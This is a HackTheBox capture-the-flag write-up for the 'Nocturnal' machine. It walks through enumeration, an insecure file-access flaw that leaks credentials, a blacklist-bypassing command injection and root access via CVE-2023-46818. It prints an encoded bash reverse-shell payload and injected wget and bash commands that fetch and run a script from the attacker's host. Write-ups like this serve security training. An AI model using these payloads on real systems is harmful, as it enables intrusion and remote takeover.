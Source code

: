 #  HackTheBox: Nocturnal - Writeup
This easy-difficulty box involves enumerating a web server to discover file upload functionality, which is leveraged to access user files and extract credentials. A backup sanitization bypass leads to remote code execution and shell access. After pivoting to the user tobias via SQLite hash cracking, SSH tunneling exposes a vulnerable internal web panel. Exploiting CVE-2023-46818 grants root access. The box combines web fuzzing, input encoding, credential reuse, and real-world CVE exploitation.

##  Enumeration
### Nmap Scan

```bash
nmap -sCV -T4 10.10.11.64
```

We start with a nmap scan, which gives us two opens ports;
Port 22 (SSH)
Port 80 (nginx web server)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image1.png)
 
Using gobuster, we’re able to enumerate the directories present in the web server. Upon which we’re given; 
/view.php
/admin.php
/backups
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image2.png)

## Initial foothold

An account is then created, to look for what services the website offers.
After logging in, we can upload a file which could lead to a potential reverse-shell, however sanitisation is put in place so that is not the correct route.
Upon uploading the potential ‘reverse-shell’ file we are able to view it, and it uses the parameters; username and file. We could access the administrator account from here.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image3.png)
 
Changing the user to admin for testing, it works just not the account.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image4.png)

Burp Intruder can be used to look for potential usernames that we can access, we supply it with the payload and begin the attack.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image5.png)
 
The results of the attack show us, that Amanda is a user with a file present in it, seen by the higher then usual length of response.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image6.png)

Going to amanda’s account we see the file ‘privacy.odt’ which contains some information about amanda and her credentials.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image7.png)
 
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.
                                                                                                                                                                                    
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image8.png)
 
Getting the backup, we obtain the files out of which on of them contain a cleanEntry function, used to sanitise the password set for the backup file. Some of the characters such as; ;, &, | , etc. aren’t allowed. From here we can form a reverse-shell, that doesn’t use the blacklisted characters through encoding.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image8.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image9.png)

We then form a reverse-shell payload that bypasses the input sanitization, but it doesn’t work as intended, meaning that we must try another way to construct the payload.

`bash%09-i%09%3E/dev/tcp/10.10.14.219/443%09%3C/dev/tcp/10.10.14.219/443`
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image10.png)

The payload is inserted into script.sh and downloaded onto the web server. 

`%0abash%09-c%09"wget%09http://10.10.14.219:8000/script.sh"&backup=`

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image11.png)
 
Which gives a successful response.

`%0abash%09-c%09”bash%09script.sh”&backup=`

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image12.png)
 
Now, the payload stored in the web server is run to gain a reverse-shell, setting up a listener on my machine.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image13.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image14.png)

Using the shell, I’m able to obtain the hash for user ‘tobias’, in the nocturnal_database.db.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image15.png)
 
Upon cracking the password, I can SSH into tobias, gaining the user flag.

## Privelege Escalation

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image18.png)
 
Further enumeration reveals a http web server being hosted, using SSH Tunnelling I’m able to host the web server on my machine.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image19.png)
 
Upon logging in as admin, with same credentials as tobias we see this version of the ISP is vulnerable to RCE.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image20.png)
 
Running the [exploit](https://github.com/ajdumanhug/CVE-2023-46818), we’re able to obtain the root shell, and obtain the root flag.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image21.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image23.png)
 
